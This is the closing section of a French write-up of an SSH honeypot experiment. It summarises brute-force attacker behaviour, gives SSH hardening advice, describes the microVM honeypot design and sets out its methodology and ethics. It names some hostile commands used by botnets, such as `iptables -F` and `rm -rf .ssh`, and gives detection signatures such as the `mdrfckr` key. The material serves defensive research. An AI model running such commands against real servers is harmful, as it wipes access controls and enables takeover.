## Ce que j'en retiens

**Sur ce que font vraiment les attaquants.**

1. **Le bruteforce de mot de passe est le seul vecteur observé.** Zéro exploitation de vulnérabilité en 530 860 tentatives. La surface d'attaque réelle de SSH, ce n'est pas le protocole, ce sont vos mots de passe.
2. **L'écrasante majorité des accès ne sont pas exploités immédiatement.** 12 864 sessions se terminent par `exit` sans rien faire. Le marché est segmenté : certains valident des identifiants, d'autres les achètent et les exploitent.
3. **Le but est presque toujours le vol de ressources.** Le bloc de recon est entièrement centré sur CPU, RAM et disque. Personne n'est venu chercher mes données.
4. **La concurrence entre botnets est féroce.** `pkill`, `iptables -F`, suppression des fichiers rivaux, changement du mot de passe root pour verrouiller les autres dehors.
5. **L'anti-forensique est quasi inexistante.** 0,15 % des sessions effacent leurs traces. Vos logs contiennent la vérité, si vous les lisez.

**Sur ce qu'il faut faire.**

- **Désactivez l'authentification par mot de passe.** `PasswordAuthentication no` et `PubkeyAuthentication yes`. Cela neutralise 100 % de ce que j'ai observé sur cinq mois.
- **Interdisez le login root direct.** `PermitRootLogin no` — `root` concentre 78,6 % des tentatives.
- **Ne comptez pas sur le changement de port.** 3 600 tentatives par jour sur le port 2222.
- **Surveillez les signatures évidentes.** La clé `mdrfckr` dans un `authorized_keys`, le login `345gs5662d34`, une bannière client `libssh` : trois règles de détection quasiment sans faux positifs.
- **Surveillez `authorized_keys` par intégrité**, pas seulement par permissions. L'attaque commence par `rm -rf .ssh`, un simple `chattr +i` est anticipé.
- **Bloquer `wget` et `curl` ne suffit pas.** Les payloads transitent aussi directement par le canal SSH.

**Sur la construction d'un honeypot.**

L'architecture microVM coûte plus cher qu'un shell émulé, en développement comme en ressources. Mais elle passe les tests de détection des attaquants — `ls -lh $(which ls)` en est la preuve — et elle permet de dormir tranquille, parce que l'absence de réseau dans la VM n'est pas une règle de filtrage qu'on peut contourner, c'est une absence de matériel.

La contrainte qui décide de tout, c'est le temps de démarrage. Un shell servi en 39 ms médians est indiscernable d'un serveur réel ; le même shell servi en deux secondes trahit le piège avant la première commande. C'est ce qui impose le type de machine `microvm` plutôt qu'une VM classique, et la chaîne qcow2 à trois niveaux plutôt qu'une copie d'image. Tout le reste de l'architecture découle de ce budget de quelques dizaines de millisecondes.

Et la persistance par attaquant, via les overlays qcow2, est ce qui donne à ces données leur profondeur : pouvoir observer le même opérateur `kswpad` revenir sur *sa* machine pendant quatre mois, c'est une information qu'un honeypot sans état ne produira jamais.

---

## Méthodologie et éthique

- **Données** : base SQLite du honeypot, du 28/04/2026 au 21/09/2026. Les commandes ont été reconstruites à partir des flux d'entrée (`"i"`) des enregistrements asciinema v2, et non depuis un historique shell — donc rien n'échappe à un `history -c`.
- **Géolocalisation** : base MaxMind GeoLite2-Country, interrogée **localement**. Aucune adresse IP n'a été transmise à un service tiers.
- **Payloads** : aucun binaire ni script n'a été téléchargé, analysé dynamiquement ou exécuté. La microVM est dépourvue d'interface réseau ; toutes les tentatives de téléchargement ont échoué au niveau socket. Les URLs publiées proviennent exclusivement de la lecture des frappes clavier.
- **Vie privée** : les adresses IP publiées sont celles de machines ayant activement attaqué un système tiers, et celles d'infrastructures de distribution de malware. Elles sont diffusées comme indicateurs de compromission.
- **Attribution** : aucune. La géolocalisation IP décrit l'emplacement d'une infrastructure, pas l'identité ou la nationalité d'un opérateur.
